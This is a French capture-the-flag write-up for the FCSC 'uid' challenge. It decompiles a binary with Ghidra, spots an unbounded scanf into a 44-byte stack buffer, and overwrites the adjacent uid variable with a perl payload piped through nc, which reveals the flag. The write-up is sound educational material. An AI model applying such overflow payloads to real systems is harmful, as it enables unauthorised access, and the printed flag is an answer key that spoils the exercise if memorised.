

# uid



Le fichier fourni : [uid](uid)

La recherche de chaines via `strings` ne donne rien.

En décompilant, via [Ghidra](https://ghidra-sre.org/), on obtient le code suivant :
```c
undefined8 main(void)
{
  undefined local_38 [44];
  __uid_t local_c;

  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

Pour obtenir le flag, il est nécessaire que la condition `local_c == 0` soit réalisée.

1ère possibilité, que `uid` soit démarré en tant que `root`, car dans ce cas, `geteuid()` renvoie `0`. Mais visiblement ce n'est pas le cas.

2ème possibilité, exploiter un buffer overflow grâce à la méthode `__isoc99_scanf()`

Ghidra indique que les allocations mémoires réalisées sur la fonction `main` sont les suivantes :

```txt
*************************************************************
*                           FUNCTION
*************************************************************
undefined  main ()
undefined         AL:1           <RETURN>
undefined4        Stack[-0xc]:4  local_c
undefined1        Stack[-0x38]:1 local_38
```

Donc sur la stack on va trouver `local_38` de `-0x38` à `-0xc` (=> 44 octets alloués), puis `local_c` sur 4 octects :

```
+-------------------------+----------------------+
| local_38 sur 44 octects | local_c sur 4 octets |
+-------------------------+----------------------+
```

Donc on peut ré-écrire `local_c` en fournissant une chaine de caractères de 48 octets :
- les 44 premiers n'ont pas d'importance, puisqu'ils servent à *remplir* `local_38`
- les 4 suivants on va les valoriser à `0x0` afin que `local_c == 0`

```bash
$ cat <(perl -e 'print "A" x 44 . "\x00" x 4')  | nc challenges.france-cybersecurity-challenge.fr 2100

username: FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}
```
